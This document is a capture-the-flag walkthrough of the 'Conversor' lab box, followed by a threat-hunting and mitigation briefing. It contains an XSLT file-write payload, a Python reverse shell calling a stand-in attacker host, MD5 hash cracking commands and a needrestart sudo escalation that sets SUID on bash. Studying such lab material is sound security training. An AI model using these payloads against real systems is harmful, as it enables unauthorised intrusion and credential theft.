









# Conversor


```
Difficulty: Easy
Operating System: Linux
Hints: True
```


> Target: `conversor.htb` (add to `/etc/hosts` with the target IP)

## Summary of Attack Chain

| Step | User / Access | Technique Used                                  | Result                                                                                                                                                                                    |
| :--: | :--: | :- | :- |
|   1  |     `N/A`     | **Port Enumeration & Host Discovery**           | Fast `nmap` scan discovered `22/tcp` (SSH) and `80/tcp` (HTTP). HTTP hostname indicated `conversor.htb`.                                                                                  |
|   2  |     `N/A`     | **Host Mapping / Web Recon**                    | Added `conversor.htb` to `/etc/hosts`, browsed site — found login/register and authenticated area with XML/XSLT upload.                                                                   |
|   3  |  `auth user`  | **XSLT Processing Verification**                | Uploaded test XML/XSL that returned `libxslt` vendor string, confirming server-side XSLT processing and EXSLT support.                                                                    |
|   4  |  `auth user`  | **XSLT Injection — exsl:document**              | Used `exsl:document` to write files (e.g., `/tmp/test.txt`), proving arbitrary file write via XSLT.                                                                                       |
|   5  |   `www-data`  | **Ingress Tool Transfer (write reverse shell)** | Wrote a Python reverse shell into `/var/www/conversor.htb/scripts/revshell.py` via XSLT file write.                                                                                       |
|   6  |   `www-data`  | **Cron Execution (Scheduled Job)**              | Found cron job executing `/var/www/conversor.htb/scripts/*.py` as `www-data` every minute; cron ran the dropped revshell.                                                                 |
|   7  |   `attacker`  | **Reverse Shell — Initial Foothold**            | Received a reverse shell connection as `www-data`, enabling local discovery and file access.                                                                                              |
|   8  |   `www-data`  | **Local Discovery (source/db)**                 | From webroot/source discovered SQLite DB at `/var/www/conversor.htb/instance/users.db` containing Raw-MD5 password hashes.                                                                |
|   9  |   `attacker`  | **Hash Extraction & Offline Cracking**          | Exported Raw-MD5 hash and cracked it offline with John the Ripper (`--format=Raw-MD5`, rockyou) recovering `fismathack`'s password.                                                       |
|  10  |  `fismathack` | **Valid Account Login (SSH)**                   | SSHed into `fismathack@conversor.htb` with cracked credentials and retrieved `/home/fismathack/user.txt` (user flag).                                                                     |
|  11  |  `fismathack` | **Sudo Misconfiguration — needrestart**         | `sudo -l` showed `NOPASSWD: /usr/sbin/needrestart`. Used `sudo /usr/sbin/needrestart -c pwn.sh` to set SUID on `/bin/bash`, then ran `/bin/bash -p` → `root`. Retrieved `/root/root.txt`. |



## Recon

I started with a fast nmap scan to discover open services:

```bash
nmap -T4 -sS --min-rate 5000 -v -Pn <IP>
```

**High-level results:**

* `22/tcp` open — `ssh` (OpenSSH 8.9p1 Ubuntu ...)
* `80/tcp` open — `http` (Apache httpd 2.4.52)

The HTTP response and hostname hinted the site was `conversor.htb`, so I added it to `/etc/hosts`:



```bash
echo "<IP>  conversor.htb" | sudo tee -a /etc/hosts
```

## Initial Foothold

Opening the site revealed a login page with a register flow. I registered a user and authenticated. The authenticated area allowed uploading XML and XSLT files — a strong indicator to test XSLT processing and injection.


### XSLT Injection & File Write

First I verified that XSLT is processed by the server by uploading a minimal XML that referenced an XSL file:

**`payload.xml`**

```xml
<?xml version="1.0"?>
<?xml-stylesheet type="text/xsl" href="payload.xsl"?>
<data><item>test</item></data>
```

**`payload.xsl`**

```xml
<?xml version="1.0"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">
  <xsl:template match="/">
    <xsl:value-of select="system-property('xsl:vendor')"/>
  </xsl:template>
</xsl:stylesheet>
```

The response returned `libxslt`, confirming the server processes XSLT with libxslt and supports EXSLT extensions.

Next I tested writing files using EXSLT's `document` (or `exsl:document`) which allowed writing arbitrary files on the filesystem.

**`payload2.xsl` (file write test)**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
  xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
  xmlns:exsl="http://exslt.org/common"
  extension-element-prefixes="exsl"
  version="1.0">
  <xsl:template match="/">
    <exsl:document href="file:///tmp/test.txt" method="text">
      test
    </exsl:document>
  </xsl:template>
</xsl:stylesheet>
```

This successfully created `/tmp/test.txt` on the host — confirming arbitrary file write via XSLT was possible.


### Initial Shell via Cron + Reverse Shell

While inspecting the application source (downloadable from an About/Download link), I found a deployment note that included a cron job configured to run every minute:

```
* * * * * www-data for f in /var/www/conversor.htb/scripts/*.py; do python3 "$f"; done
```

A cron job that executes **any** Python file in `/var/www/conversor.htb/scripts/` as `www-data` every minute is a low-hanging privilege path once we can write files there.

I used the XSLT file write capability to place a Python reverse shell into `/var/www/conversor.htb/scripts/revshell.py`.

**`revshell.xsl` (used to write `/var/www/conversor.htb/scripts/revshell.py`)**

```xml
<?xml version="1.0" encoding="UTF-8"?>
<xsl:stylesheet
    xmlns:xsl="http://www.w3.org/1999/XSL/Transform"
    xmlns:ptswarm="http://exslt.org/common"
    extension-element-prefixes="ptswarm"
    version="1.0">

  <xsl:template match="/">
    <ptswarm:document href="/var/www/conversor.htb/scripts/revshell.py" method="text">
#!/usr/bin/env python3
import os, socket, subprocess
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect("<ATTACKER_IP>", <ATTACKER_PORT>)
os.dup2(s.fileno(), 0); os.dup2(s.fileno(), 1); os.dup2(s.fileno(), 2)
subprocess.call(["/bin/sh","-i"])
    </ptswarm:document>
  </xsl:template>
</xsl:stylesheet>
```

> Replace `<ATTACKER_IP>` and `<ATTACKER_PORT>` with your listener info.




Start a netcat listener locally:

```bash
nc -lvnp <ATTACKER_PORT>
```

After waiting for the next cron run, the listener received a reverse shell as **www-data**.




### Privilege Escalation — Local DB & Cracking a User

From the application source I located the SQLite database used by the web app:

```
/var/www/conversor.htb/instance/users.db
```

I opened the DB and inspected the `users` table:

```bash
sqlite3 /var/www/conversor.htb/instance/users.db
.tables
SELECT * FROM users;
```



The table contained usernames and password hashes (Raw MD5-style). For example, a `fismathack` user entry existed with a hash.

I exported the hash and cracked it using John the Ripper:

```bash
echo "5b5c3<HASH>" > hash.txt
john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
```

John recovered the plaintext password. Using the credentials I SSH'd into the host:

```bash
ssh fismathack@conversor.htb
# password: <CRACKED_PASSWORD>
```



Once logged in as `fismathack` I read the user flag:

```bash
cat /home/fismathack/user.txt
# <USER_FLAG>
```



User flag obtained.


## Privilege Escalation


On the `fismathack` account I checked sudo privileges:

```bash
sudo -l
```

The output showed `fismathack` can run `/usr/sbin/needrestart` as root without a password:

```
User fismathack may run the following commands on conversor:
    (ALL : ALL) NOPASSWD: /usr/sbin/needrestart
```



### Root Flag

`needrestart` has an option to execute scripts or check binaries; in this environment we can abuse it to run arbitrary commands as root. I created a small script that invokes `system("chmod +s /bin/bash");` (or any command to obtain a root shell) and used `needrestart` to execute it.

Example steps I used:

```bash
# create a script that will set the SUID bit on bash
echo 'system("chmod +s /bin/bash");' > pwn.sh

# run needrestart as root (NOPASSWD)
sudo /usr/sbin/needrestart -c pwn.sh

# execute the SUID bash to become root
/bin/bash -p
whoami
```

After that, I had a root shell and retrieved the root flag:

```bash
cat /root/root.txt
# 304d48XXXXXXXXXXXXXXXXXXXXXX
```




# Conversor: Tactical Operations Briefing

## Strategic Overview

* **1.1 Definition:** A high-severity chain exploiting **Server-Side XML/XSLT Injection** to achieve Arbitrary File Write, coupled with **Insecure Task Scheduling** (Cron) for initial execution and **Misconfigured Sudo Privileges** (`needrestart`) for root escalation.
* **1.2 Impact:** **Full System Compromise**. The adversary leverages a logic flaw in the data processing layer (XSLT) to overwrite operational scripts, gaining a foothold, and pivots through weak cryptographic storage to administrative control.
* **1.3 The Scenario:** An adversary authenticates to a web portal and identifies an XML conversion feature. By injecting malicious XSLT tags (`exsl:document`), they force the underlying `libxslt` library to write a reverse shell into a directory monitored by a system Cron job. Post-compromise, they harvest credentials from a local SQLite database and abuse the `needrestart` utility's unrestricted configuration loading to execute code as Root.


## System Architecture & Theory

* **2.1 Protocol Environment:**
* **Presentation Layer:** Apache 2.4.52 / PHP (Web Application).
* **Processing Layer:** `libxslt` (XML Transformation Engine with EXSLT extensions).
* **Persistence Layer:** SQLite (`users.db`).
* **Management Layer:** Systemd Cron, SSH, `sudo`.


* **2.2 Attack Logic Flow:**
> [Public HTTP 80] -> [XSLT Injection (`exsl:document`)] -> [Arbitrary File Write] -> [Cron Job Execution] -> [Service Account Shell] -> [Weak Hashing (MD5)] -> [SSH Access] -> [Sudo Misconfiguration] -> [Root]


* **2.3 Theoretical Analogy:** The attacker submits a "blueprint" (XSLT) to a factory machine. Instead of building the intended product, the machine follows hidden instructions in the blueprint to build a key (Reverse Shell) and place it on the Supervisor's desk (Cron directory). When the Supervisor arrives (Cron execution), they unwittingly use the key, granting the attacker entry.


## Attack Vector (Mechanics)

### Core Mechanism

| Attribute               | Technical Details                                                                                                                                                                              |
| :---------------------- | :--------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Primary Identifiers** | `libxslt` vendor string, `exsl:document` EXSLT function, wildcard cron execution of `*.py` scripts.                                                                                            |
| **Critical Weakness**   | **XSLT injection** enabling arbitrary file writes combined with **insecure cron scheduling and file permissions**.                                                                             |
| **Offensive Technique** | Escaped the XSLT transformation sandbox using EXSLT extensions to drop a Python payload into a cron-executed directory, then escalated privileges via a misconfigured `needrestart` sudo rule. |


### Prerequisites

* **Access Level:** Authenticated Web User (Standard Registration).
* **Connectivity:** TCP 80 (HTTP), TCP 22 (SSH).
* **Target State:** `libxslt` configured with default EXSLT support enabled; Cron job utilizing wildcard expansion on a writable directory.


## Threat Hunting & Anomaly Analysis

* **Hunt Hypothesis:** Adversaries leveraging XSLT injection will generate file write events originating from the web server process (`www-data` / `apache2`). Subsequent privilege escalation involves `sudo` execution of administrative tools (`needrestart`) invoking unknown or user-controlled scripts.
* **Behavioral Outliers:**
* **File System:** Creation of `.py` or `.sh` files in `/var/www/` directories by the `www-data` user, especially those not matching deployment timestamps.
* **Process Execution:** `cron` spawning `python3` processes that establish outbound network connections (Reverse Shell).
* **Sudo Usage:** Execution of `/usr/sbin/needrestart` with the `-c` flag pointing to user-writable files.


* **Toxic Combinations:** A web application with "File Write" capabilities (via vulnerability) residing on the same filesystem as a Cron job that executes "All Files" (`*.py`) in the writable directory creates an immediate RCE vector.


## Detection Engineering

* **Telemetry Gap Analysis:**
* **File Integrity Monitoring (FIM):** Must cover webroot script directories (`/scripts/`) to detect unauthorized additions.
* **Process Auditing:** Alerting on `sudo` usage where the command line contains script paths in `/tmp` or `/home`.
* **Network:** Outbound connections from standard web ports (80/443) are normal, but outbound connections from `python3` to high ports (4444+) are anomalous.


* **Detection-as-Code (KQL):**

```kql
// Detect Suspicious Cron-Driven Script Execution
// Trigger: High Severity
SecurityEvent
| where EventID == 4688 // Process Creation (Linux Audit equivalent)
| where ParentProcessName == "cron" or ParentProcessName == "CRON"
| where ProcessName == "python3" or ProcessName == "sh"
// Detect wildcard expansion or suspicious paths
| where CommandLine contains "/var/www/" and CommandLine contains "scripts"
| join kind=inner (
    NetworkConnection
    | where DestinationPort > 1024
) on $left.ProcessId == $right.ProcessId
| project TimeGenerated, Account, Computer, CommandLine, DestinationIp, DestinationPort

```

* **Resilience Test:**
* **Bypass:** The attacker could name the file to look like a legitimate library or suppress the outbound connection by using a bind shell (if firewall permits inbound).
* **Sub-Rule Countermeasure:** Monitor the *creation* of files in the target directory by the `www-data` user via `auditd`.


## Toolkit & Implementation

* **Automation:**
* `Burp Suite`: Repeater for crafting the XML/XSLT payload.
* `John the Ripper`: Offline cracking of the MD5 database dump.
* `Netcat`: Listener for the reverse shell.


* **OPSEC Analysis:**
* **XSLT:** The injection happens entirely server-side. Unless the WAF inspects XML bodies for `exsl:` namespaces, it is stealthy.
* **Cron:** The persistence mechanism is noisy once the shell executes, creating a persistent process tree.
* **Needrestart:** The privilege escalation is logged in `auth.log` (`sudo` execution).


* **Post-Exploitation:** Root access allows for full persistence (SSH keys, systemd services) and lateral movement if this host is pivoted (though it is a standalone target here).


## Defensive Mitigation

* **Technical Hardening:**
* **XML Security:** Disable `libxslt` extensions (specifically `EXSLT`) or sandbox the transformation process. Ensure `AllowFileWrite` is false.
* **Cron Hygiene:** Never use wildcards (`*.py`) in privileged cron jobs. Explicitly list the scripts to be executed and ensure they are owned by `root` and not writable by `www-data`.
* **Sudo:** Restrict `needrestart` execution or ensure it cannot load configuration files from user-controlled paths.


* **Personnel Focus:**
* Developers must treat XML input as untrusted and disable external entity loading (XXE) and extensions (XSLT Injection).
* Sysadmins must review `sudo -l` configurations for binaries that allow config loading (`-c`, `-C`, `--config`).


## Quick-Action Playbook

| Step | Objective                | Technique / Command                                                                   |
| :--: | :----------------------- | :------------------------------------------------------------------------------------ |
|   1  | **Payload Injection**    | **XSLT injection via `exsl:document`**                                                |
|      |                          | Abused EXSLT extensions to write an attacker-controlled file to disk.                 |
|   2  | **Foothold Acquisition** | **nc -lvnp <PORT>**                                                                   |
|      |                          | Waited for scheduled task execution to trigger reverse shell.                         |
|   3  | **Privilege Escalation** | **sudo needrestart -c exploit.sh**                                                    |
|      |                          | Leveraged misconfigured sudo permissions to execute attacker-controlled code as root. |


**Thanks for a Read!**